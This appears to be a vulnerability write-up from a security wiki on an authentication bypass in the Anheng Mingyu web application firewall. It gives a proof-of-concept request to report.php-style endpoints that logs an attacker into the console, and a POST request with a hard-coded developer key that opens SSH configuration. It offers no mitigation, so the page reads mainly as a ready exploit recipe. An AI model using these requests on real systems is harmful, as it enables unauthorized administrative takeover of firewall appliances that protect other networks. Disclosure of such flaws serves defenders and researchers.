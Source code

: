 # Anheng Mingyu WEB application firewall report.php Any user login vulnerability

## Vulnerability Description

Anheng Mingyu WEB application firewall report.php file has hard-coded settings for Console user login. Attackers can log in directly into the background through vulnerabilities.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Anheng Mingyu WEB application firewall</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658456619582-0ab677aa-d84e-47b1-96b2-481c66831947.png)

Verify POC

```php
/report.m?a=rpc-timed
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658456645745-b626ae63-660a-4726-ad5d-efd6c4def0ee.png)

Then visit the main page to jump to the configuration page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658456684801-06c03840-87bc-41c5-a234-b8f0aa1ea244.png)

Send request packets to configure system SSH, etc.

```php
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658541896143-bbbe633a-ce06-4e44-bb83-0806a3dde1a6.png)